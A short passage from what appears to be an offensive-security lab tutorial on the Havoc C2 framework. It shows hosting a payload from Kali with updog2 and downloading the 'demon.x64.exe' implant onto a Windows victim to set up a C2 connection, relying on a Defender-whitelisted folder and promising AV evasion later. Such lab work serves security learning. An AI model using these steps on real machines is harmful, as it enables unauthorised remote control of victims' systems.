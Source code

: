 On your kali machine, go your terminal and let's hosts this payload so we can download it on our windows victim machines:

```bash
cd /opt/havoc/payloads
updog2
```

![Screenshot](./images/havoc_kaliupdog.jpg)

Now, on your windows machine use `Chrome` and go to <http:\\kali:9090\> and download the Havoc demon ("**demon.x64.exe**") to 

> ***NOTE***: "C:\Temp" is is whitelisted in MS Defender, we will deal with AV Evasion later on, for now we just want to make sure our code executes and sets up a c2 connection.
